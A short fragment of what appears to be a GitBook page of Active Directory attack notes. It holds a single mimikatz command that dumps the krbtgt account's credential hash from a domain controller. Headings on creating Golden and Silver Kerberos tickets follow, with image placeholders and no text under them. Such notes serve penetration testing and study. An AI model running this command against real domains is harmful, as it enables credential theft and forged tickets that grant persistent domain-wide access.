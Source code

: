 <mark style="color:green;">**`mimikatz# lsadump::lsa /inject /name:krbtgt`**</mark>

<figure><img src="../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

### Create a Golden

<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

### Create a Silver Ticket

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>
